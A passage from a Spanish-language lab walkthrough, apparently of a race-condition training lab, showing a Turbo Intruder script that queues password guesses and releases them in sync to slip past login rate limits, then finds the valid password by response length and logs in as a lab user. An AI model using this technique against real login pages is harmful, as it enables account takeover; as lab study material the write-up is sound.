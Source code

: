 ```
    passwords = [password.strip() for password in passwords]

    # The 'gate' argument withholds part of each request until openGate is invoked
    # If you see a negative timestamp, the server responded before the request was complete
    for password in passwords:
        engine.queue(target.req, password, gate='race1')

    # Once every 'race1' tagged request has been queued
    # Invoke engine.openGate() to send them in sync
    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)
```

Si `filtramos` por `Length` vemos que nos hace un `redirect`, lo cual significa que la `contraseña` es `válida`

![](/assets/img/Race-Conditions-Lab-2/image_12.png)

Nos `logueamos` con las credenciales `carlos:letmein`

![](/assets/img/Race-Conditions-Lab-2/image_13.png)
